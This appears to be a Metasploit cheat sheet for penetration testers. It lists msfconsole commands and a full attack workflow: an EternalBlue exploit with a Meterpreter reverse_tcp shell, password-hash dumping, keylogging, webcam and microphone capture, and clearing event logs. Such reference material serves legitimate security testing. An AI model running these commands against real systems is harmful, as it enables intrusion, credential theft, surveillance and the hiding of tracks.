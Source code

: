 ## **Metasploit Cheat Sheet**

**Description:**
The Metasploit Framework is an open-source penetration testing platform that provides a vast collection of exploits, payloads, auxiliary modules, encoders, and post-exploitation tools. It allows security professionals to simulate real-world attacks, identify vulnerabilities, validate security controls, and develop exploit code. Metasploit is highly modular, enabling users to combine various components to achieve specific penetration testing goals. Its primary interface is the `msfconsole`, an interactive command-line environment.

**Key Components:**
* **Exploits:** Code that targets specific vulnerabilities in systems or applications to gain unauthorized access.
* **Payloads:** Malicious code that is delivered by an exploit and executed on the compromised target (often generated with `msfvenom`).
* **Auxiliary Modules:** Tools for various tasks like scanning, fuzzing, network sniffing, and information gathering, without necessarily exploiting a vulnerability.
* **Post-Exploitation Modules:** Used to gather more information, maintain access, or escalate privileges on a compromised system.
* **Encoders:** Used to obfuscate payloads to bypass security measures.
* **Nops:** No-operation instructions used to create space in memory for shellcode.

**Common `msfconsole` Commands:**

1.  **Start Metasploit Console:**
    ```bash
    msfconsole
    ```

2.  **Search for Modules:**
    ```bash
    search <keyword>
    ```
    *Example: `search eternalblue`, `search apache`*

3.  **Use a Module (Exploit, Auxiliary, Post):**
    ```bash
    use <module_path>
    ```
    *Example: `use exploit/windows/smb/ms17_010_eternalblue`*
    *Example: `use auxiliary/scanner/smb/smb_version`*

4.  **Show Options for the Current Module:**
    ```bash
    show options
    ```
    *Displays configurable options (e.g., RHOST, LPORT, PAYLOAD) for the selected module.*

5.  **Set a Module Option:**
    ```bash
    set <option_name> <value>
    ```
    *Example: `set RHOSTS 192.168.1.100`*
    *Example: `set LHOST 192.168.1.5`*
    *Example: `set LPORT 4444`*

6.  **Set a Global Option (persists across module changes):**
    ```bash
    setg <option_name> <value>
    ```
    *Example: `setg LHOST 192.168.1.5`*

7.  **Show Payloads for an Exploit:**
    ```bash
    show payloads
    ```
    *After selecting an exploit, shows compatible payloads.*

8.  **Set a Payload:**
    ```bash
    set PAYLOAD <payload_path>
    ```
    *Example: `set PAYLOAD windows/meterpreter/reverse_tcp`*

9.  **Show Targets for an Exploit:**
    ```bash
    show targets
    ```
    *Displays a list of supported target operating systems or service packs for the exploit.*

10. **Set a Target:**
    ```bash
    set TARGET <target_number>
    ```
    *Example: `set TARGET 0` (selects the first target if available)*

11. **Check if a Target is Vulnerable (for some modules):**
    ```bash
    check
    ```

12. **Run the Exploit/Module:**
    ```bash
    exploit
    ```
    *Alias: `run`*

13. **Run Exploit in Background:**
    ```bash
    exploit -j
    ```
    *Runs the exploit as a job, allowing you to continue using the console.*

14. **List Active Sessions:**
    ```bash
    sessions -l
    ```

15. **Interact with a Session:**
    ```bash
    sessions -i <session_id>
    ```
    *Example: `sessions -i 1`*

16. **Background the Current Session:**
    ```bash
    background
    ```

17. **Meterpreter Commands (after gaining a Meterpreter session):**
    * `help`: Displays Meterpreter commands.
    * `sysinfo`: Displays system information.
    * `getuid`: Displays current user ID.
    * `pwd`: Print working directory on the target.
    * `ls`: List files in the current directory.
    * `cd <directory>`: Change directory.
    * `download <remote_file> <local_path>`: Download a file.
    * `upload <local_file> <remote_path>`: Upload a file.
    * `shell`: Drop into a native command shell (e.g., `cmd.exe`, `bash`).
    * `migrate <PID>`: Migrate Meterpreter to another process.
    * `getprivs`: Attempt to get all privileges.
    * `hashdump`: Dump password hashes (Windows).
    * `screenshot`: Take a screenshot of the target desktop.
    * `webcam_snap`: Take a picture from the webcam.
    * `record_mic`: Record audio from the microphone.
    * `keyscan_start`/`keyscan_dump`/`keyscan_stop`: Start/dump/stop keyboard logging.
    * `clearev`: Clear event logs (Windows).
    * `ps`: List running processes.
    * `kill <PID>`: Kill a process.

18. **Exit Metasploit:**
    ```bash
    exit
    ```

**General Workflow:**

1.  **Information Gathering/Reconnaissance:** Use auxiliary modules or external tools to gather information about the target (e.g., open ports, services, OS versions).
    * `search scanner`
    * `use auxiliary/scanner/portscan/tcp`
    * `set RHOSTS <target_IP>`
    * `run`

2.  **Vulnerability Identification:** Based on reconnaissance, identify potential vulnerabilities.
    * `search <vulnerability_name>`

3.  **Exploit Selection:** Choose an appropriate exploit module for the identified vulnerability.
    * `use exploit/windows/smb/ms17_010_eternalblue`

4.  **Payload Selection:** Choose a payload that aligns with your goals (e.g., `meterpreter/reverse_tcp` for interactive control).
    * `set PAYLOAD windows/meterpreter/reverse_tcp`

5.  **Configure Options:** Set `RHOSTS`, `LHOST`, `LPORT`, and any other required options.
    * `show options`
    * `set RHOSTS <target_IP>`
    * `set LHOST <your_IP>`
    * `set LPORT <your_port>`

6.  **Execute Exploit:**
    * `exploit`

7.  **Post-Exploitation:** Once a session is established (e.g., Meterpreter), use post-exploitation modules to further compromise the system, escalate privileges, or move laterally.
    * `use post/windows/gather/smart_hashdump`
    * `set SESSION <session_id>`
    * `run`